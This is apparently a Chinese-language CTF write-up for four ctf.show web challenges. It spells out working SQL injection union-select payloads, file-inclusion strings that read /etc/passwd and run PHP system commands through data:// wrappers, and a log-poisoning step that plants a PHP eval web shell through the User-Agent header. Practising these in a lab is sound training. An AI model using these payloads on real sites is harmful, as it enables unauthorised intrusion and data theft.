+ 网址：[ctf.show](https://ctf.show/challenges)

## web1

+ 启动环境，右键检查元素，直接找到<code>flag</code>

## web2

+ 启动环境，根据提示这一关是<code>sql</code>注入，打开后发现有几个注入点



+ 注入万能语句，成功找到注入点

~~~ shell
1' or 1=1 #
~~~



+ 注入以下语句，得到回显的位置

~~~ shell
1' union select 1,2,3#
~~~

+ 联合查询，得到数据表名

~~~ shell 
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()#
~~~



+ 继续联合查询，得到字段名

~~~ shell
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='flag'#
~~~



+ 最后爆破字段，得到<code>flag</code>

~~~ shell
1' union select 1,flag,3 from flag#
~~~



## web3

+ 打开<code>web3</code>界面



由文字解析，由于包括<code>include</code>可知这是文件包含漏洞

+ 首先注入以下语句

~~~ shell
?url=/etc/passwd
~~~



可看到有回显位，由此知道注入成功

+ 注入语句查询当前目录下的文件结构

~~~ shell
?url=data://text/plain,<?php print_r(glob("*"))?>
~~~



+ 查看<code>ctf_go_go_go</code>文件

~~~ shell
?url=data://text/plain,<?php system("cat ctf_go_go_go"); ?>
~~~



得到<code>flag</code>

## web4

+ 查看页面如下，看解释仍然是文件包含漏洞

+ 使用如下语句查看当前目录下所有文件

~~~ shell
?url=data://plain/text,<?php print_r(glob('*'))?>
~~~

发生了错误，此路不通，考虑换一种方法

+ 使用如下语句查看日志文件

~~~ shell
?url=/var/log/nginx/access.log
~~~

+ 用<code>burpsuite</code>拦截该请求



+ 注入如下语句到参数<code>User-Agent</code>中

~~~ shell
<?php @eval($_POST["ctfshow"]); ?>
~~~

放包后成功注入到该页面中

+ 这道题挑战失败，原因是蚁剑连接不上



